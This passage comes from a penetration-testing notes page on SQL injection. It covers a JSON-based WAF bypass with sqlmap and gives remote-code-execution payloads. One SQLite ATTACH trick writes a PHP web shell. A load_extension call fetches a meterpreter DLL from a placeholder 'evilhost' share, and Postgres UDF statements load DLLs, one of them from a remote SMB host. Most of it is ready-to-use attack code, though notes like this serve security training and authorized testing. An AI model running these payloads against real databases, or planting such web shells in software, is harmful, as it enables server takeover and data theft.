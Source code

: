 
### Abusing JSON-Based SQL to Bypass WAF
Original article: [{JS-ON: Security-OFF}: Abusing JSON-Based SQL to Bypass WAF](https://claroty.com/team82/research/js-on-security-off-abusing-json-based-sql-to-bypass-waf); Team82 Research

MySQL:

```sql
SELECT JSON_EXTRACT('{"id": 14, "name": "Aztalan"}', '$.name') = 'Aztalan'
```

Postgres:

```sql
'{"b":2}'::jsonb <@ '{"a":1, "b":2}'::jsonb
```

SQLite:

```sql
'{"a":2,"c":[4,5,{"f":7}]}' -> '$.c[2].f' = 7
```

[sqlmap](../Tools/sqlmap.md) evasion filter: `sqlmap --tamper json_waf_bypass_postgres.py`

---

## RCE using SQLite command

```sql
# Attach Database
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--

# Load_extension (Note: By default this component is disabled)
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

## RCE loading extensions (Postgres UDF)

>[!warning]
>The compiled extension we want to load must define an appropriate Postgres structure (magic block) to ensure that a dynamically library file is not loaded into an incompatible server. If the target library doesn’t have this magic block (as is the case with all standard system libraries), then the loading process will fail.

```sql
# Load an external extension
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;

CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
SELECT system('hostname');
ERROR: incompatible library "c:\Windows\System32\kernel32.dll": missing magic block
HINT: Extension libraries are required to use the PG_MODULE_MAGIC macro.
********** Error **********

# compile a custom dynamic library 
## Local
create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
SELECT test($$calc.exe$$, 3);

## Remote
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.2.209\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
SELECT remote_test($$calc.exe$$, 3);
```

[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec
[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec